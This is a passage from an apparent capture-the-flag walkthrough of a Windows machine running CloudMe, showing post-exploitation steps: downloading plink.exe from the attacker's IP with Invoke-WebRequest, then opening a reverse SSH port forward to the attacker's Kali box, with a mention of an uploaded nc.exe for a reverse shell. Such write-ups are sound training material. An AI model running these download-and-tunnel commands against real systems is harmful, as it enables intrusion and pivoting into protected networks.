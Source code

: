 We are using the same `nc.exe` that we uploaded before, to get a reverse connection.

Since the service is running on localhost, we need to do port forwarding to access the service from our box.

For this purpose, I am using `plink.exe` to create a remote port forwarding connection to our box. 

```
PS C:\Users\Shaun\Downloads> Invoke-WebRequest -Uri http://10.10.14.57/plink.exe -OutFile plink.exe
Invoke-WebRequest -Uri http://10.10.14.57/plink.exe -OutFile plink.exe
PS C:\Users\Shaun\Downloads> dir
dir


    Directory: C:\Users\Shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe                                                      
-a----       28/05/2021     18:48         645872 plink.exe                                                             


PS C:\Users\Shaun\Downloads>
```

However, to run plink, we need to have `cmd.exe`. Also, do not forget to enable the `SSH` service on our box.

```
C:\Users\Shaun\Downloads>plink.exe -l root -pw root -P 2222 10.10.14.57 -R 8888:127.0.0.1:8888
plink.exe -l root -pw root -P 2222 10.10.14.57 -R 8888:127.0.0.1:8888
The server's host key is not cached. You have no guarantee
that the server is the computer you think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 SHA256:m7JmUdX2XjvOdg8QuiBeyktfQq6nJ8GyToz20NtBw3w
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "root".
Linux nehal 5.9.0-kali1-amd64 #1 SMP Debian 5.9.1-1kali2 (2020-10-29) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat May 29 03:37:36 2021 from 10.129.25.107
┏━(Message from Kali developers)
┃
┃ This is a minimal installation of Kali Linux, you likely
┃ want to install supplementary tools. Learn how:
┃ ⇒ https://www.kali.org/docs/troubleshooting/common-minimum-setup/
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
```